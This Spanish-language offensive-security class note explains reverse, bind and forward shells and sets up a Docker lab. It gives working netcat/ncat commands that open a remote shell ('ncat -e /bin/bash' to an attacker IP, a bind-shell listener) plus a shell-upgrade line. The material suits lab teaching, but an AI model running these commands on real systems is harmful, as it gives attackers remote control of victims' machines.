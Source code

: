 En esta clase, veremos las diferencias entre Reverse Shell, Bind Shell y Forward Shell:

- **Reverse Shell**: Es una técnica que permite a un atacante conectarse a una máquina remota desde una máquina de su propiedad. Es decir, se establece una conexión desde la máquina comprometida hacia la máquina del atacante. Esto se logra ejecutando un programa malicioso o una instrucción específica en la máquina remota que establece la conexión de vuelta hacia la máquina del atacante, permitiéndole tomar el control de la máquina remota.

- **Bind Shell**: Esta técnica es el opuesto de la Reverse Shell, ya que en lugar de que la máquina comprometida se conecte a la máquina del atacante, es el atacante quien se conecta a la máquina comprometida. El atacante escucha en un puerto determinado y la máquina comprometida acepta la conexión entrante en ese puerto. El atacante luego tiene acceso por consola a la máquina comprometida, lo que le permite tomar el control de la misma.

- **Forward Shell**: Esta técnica se utiliza cuando no se pueden establecer conexiones Reverse o Bind debido a reglas de Firewall implementadas en la red. Se logra mediante el uso de **mkfifo**, que crea un archivo **FIFO** (**named pipe**), que se utiliza como una especie de “**consola simulada**” interactiva a través de la cual el atacante puede operar en la máquina remota. En lugar de establecer una conexión directa, el atacante redirige el tráfico a través del archivo **FIFO**, lo que permite la comunicación bidireccional con la máquina remota.

Es importante entender las diferencias entre estas técnicas para poder determinar cuál es la mejor opción en función del escenario de ataque y las limitaciones de la red.

## Crear Entorno en Docker
### Crear un Docker file
```dockerfile
FROM ubuntu:latest

ENV DEBIAN_FRONTEND noninteractive

RUN apt update && apt install -y apache2 \
  php

EXPOSE 80

ENTRYPOINT service apache2 start && /bin/bash
```
#### Ejecutar 
```bash
## Contruir Imagen
docker build -t my_image .

## Construir contenedor
docker run -dit -p 80:80 --cap-add=NET_admin --name myContainer my_image

## Ejecutar contenedor
docker exec -it myContainer bash 
```
## Reverse Shell 
```bash
## Maquina Atacante
nc -nlvp 443

## Maquina Victima
ncat -e /bin/bash <IP-Atacante> <PORT>
# Ejemplo 👇
ncat -e /bin/bash 172.17.0.1 443

## Poner un prompt en la consola interactiva
script -c /dev/null -c bash
```
## Bind Shell (Victima ofrece una Shell)
```bash
## Maquina Victima
ncat -nlvp 443 -e /bin/bash

## Maquina Atacante
nc <IP-Victima> <PORT>

## Poner un prompt en la consola interactiva
script -c /dev/null -c bash
```

## **📊 Diferencias Clave**

|Característica|Reverse Shell|Bind Shell|
|---|---|---|
|**Quién inicia la conexión**|La víctima|El atacante|
|**Necesita que el atacante abra un puerto**|✅ Sí|❌ No|
|**Fácil de usar detrás de un firewall/NAT**|✅ Sí|❌ No|
|**Riesgo de detección en la víctima**|🔥 Alto|⚠️ Medio|